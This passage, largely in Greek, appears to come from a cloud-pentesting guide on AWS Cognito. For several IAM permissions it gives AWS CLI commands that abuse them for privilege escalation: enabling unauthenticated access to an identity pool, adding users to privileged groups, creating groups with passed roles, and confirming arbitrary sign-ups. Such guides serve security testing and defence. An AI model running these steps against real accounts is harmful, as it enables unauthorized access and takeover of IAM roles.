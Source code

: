 ```bash

# In this step you should have already an ID Token
aws cognito-identity get-id \
--identity-pool-id <id_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```
Είναι επίσης δυνατό να **καταχραστείτε αυτήν την άδεια για να επιτρέψετε basic auth**:
```bash
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
--allow-unauthenticated-identities
--allow-classic-flow
```
**Πιθανός Αντίκτυπος**: Συμβιβασμός του διαμορφωμένου επαληθευμένου ρόλου IAM μέσα στο identity pool.

### `cognito-idp:AdminAddUserToGroup`

Αυτό το δικαίωμα επιτρέπει την **προσθήκη ενός Cognito χρήστη σε μια Cognito ομάδα**, επομένως ένας επιτιθέμενος θα μπορούσε να κακοχρησιμοποιήσει αυτό το δικαίωμα για να προσθέσει έναν χρήστη υπό τον έλεγχό του σε άλλες ομάδες με **καλύτερα** προνόμια ή **διαφορετικούς ρόλους IAM**:
```bash
aws cognito-idp admin-add-user-to-group \
--user-pool-id <value> \
--username <value> \
--group-name <value>
```
**Πιθανός Αντίκτυπος:** Privesc to other Cognito groups and IAM roles attached to User Pool Groups.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

Ένας επιτιθέμενος με αυτά τα δικαιώματα θα μπορούσε να **δημιουργήσει/ενημερώσει ομάδες** με **κάθε IAM role που μπορεί να χρησιμοποιηθεί από έναν παραβιασμένο Cognito Identity Provider** και να κάνει έναν παραβιασμένο χρήστη μέρος της ομάδας, αποκτώντας πρόσβαση σε όλους αυτούς τους ρόλους:
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
**Πιθανός Αντίκτυπος:** Privesc σε άλλους ρόλους Cognito IAM.

### `cognito-idp:AdminConfirmSignUp`

Αυτή η άδεια επιτρέπει την **επιβεβαίωση εγγραφής**. Εξ ορισμού ο οποιοσδήποτε μπορεί να συνδεθεί σε εφαρμογές Cognito — αν αυτό παραμείνει, ένας χρήστης θα μπορούσε να δημιουργήσει λογαριασμό με οποιαδήποτε δεδομένα και να τον επιβεβαιώσει με αυτή την άδεια.
```bash
aws cognito-idp admin-confirm-sign-up \
--user-pool-id <value> \
--username <value>
```
**Πιθανός αντίκτυπος:** Έμμεσο privesc στο identity pool IAM role για authenticated users αν μπορείτε να εγγράψετε νέο χρήστη. Έμμεσο privesc σε άλλες λειτουργίες της εφαρμογής μέσω της δυνατότητας επιβεβαίωσης οποιουδήποτε λογαριασμού.
